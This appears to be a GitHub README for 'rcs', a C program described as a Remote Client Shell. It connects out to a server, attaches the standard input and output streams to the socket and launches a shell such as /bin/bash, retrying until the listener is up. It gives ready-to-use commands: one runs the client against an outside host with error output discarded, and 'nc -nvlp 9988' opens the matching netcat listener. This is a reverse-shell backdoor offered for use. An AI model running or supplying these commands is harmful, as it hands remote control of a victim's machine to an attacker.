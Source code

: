 # rcs
Remote Client Shell

Process ('rcs') starts a conection. If any server responses, the client duplicate STDIN_FILENO, STDOUT_FILENO, and STDERR_FILENO and execve() a new process specified at 'rcs' parameters (maybe '/bin/bash').<br>
'rcs' connection request is able to retried (parameter) and sleep (parameter) at each connect() fails, waiting the server goes listenning.
 
<pre>
Usage: $ ./rcs &ltIP> &ltPORT> &ltSHELL> &ltN_RETRY_CONNECT> &ltRETRY_SECONDS>
  
$ ./rcs sample.noip.com 9988 '/bin/bash' 10 5 2>/dev/null
 
Remote (netcat) usage: nc -nvlp &ltPORT> 
  
$ nc -nvlp 9988
</pre>
